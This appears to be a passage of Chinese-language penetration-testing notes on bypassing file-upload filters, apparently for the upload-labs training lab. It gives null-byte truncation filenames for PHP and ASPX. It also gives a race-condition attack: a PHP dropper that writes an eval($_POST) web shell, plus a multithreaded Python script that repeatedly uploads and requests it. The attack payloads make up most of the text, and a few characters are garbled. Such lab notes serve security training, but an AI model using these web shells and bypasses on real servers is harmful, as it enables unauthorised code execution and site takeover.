 ```
大小写绕过
```
### **2. 其他绕过**
<https://www.kancloud.cn/user1157546548/hw_tips/2971781>
### **3. 0:0截断**
查看phpinfo()是否php<5.3.4（老网站很多php5.2）
默认的mgic_quotes_gpc=off 没有修改
例题wp：<https://www.cnblogs.com/0yst3r-2046/p/12530316.html>
后端会将上传的文件在文件名后缀上 自定义＋.png
使用00截断后面加上的自定义.png：
```
上传的地址/+a.php%00
POST中:a.php+（%00url解码）
a.php龍龍

1.aspx%00aspx.jpg
555555.aspx%00aspx.jpg可以多加名称长度直到留下.aspx
```

### **4. 条件竞争**
上传任意文件响应都是200，但是访问却没有。
后端的上传文件处理可能是先上传文件放在目录后才判断是否合规。
利用CPU处理的时间差，访问上传的木马生成子马。
上传shell后，利用还未清除的一段时间，疯狂访问shell，执行木马shell，生成子马。
```
<?php
$f=fopen("7.php","w");
fputs($f,'<?php eval($_POST[7]);?>');?>
```
一个不停上传，一个不停访问。
```
# coding:utf-8
import requests
from concurrent.futures import ThreadPoolExecutor


def td(list):
    url = 'http://localhost/upload-labs/Pass-17/index.php'
    files = {'upload_file': (
        'szm.php', "<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])；  ?>' ); ?>")}
    data = {'submit': '上传'}
    r = requests.post(url=url, data=data, files=files)

    re = requests.get('http://localhost/upload-labs/upload/szm.php')
    if re.status_code == 200:
        print('上传成功')


if __name__ == '__main__':
    with ThreadPoolExecutor(20) as p:
        p.map(td, range(200))
```
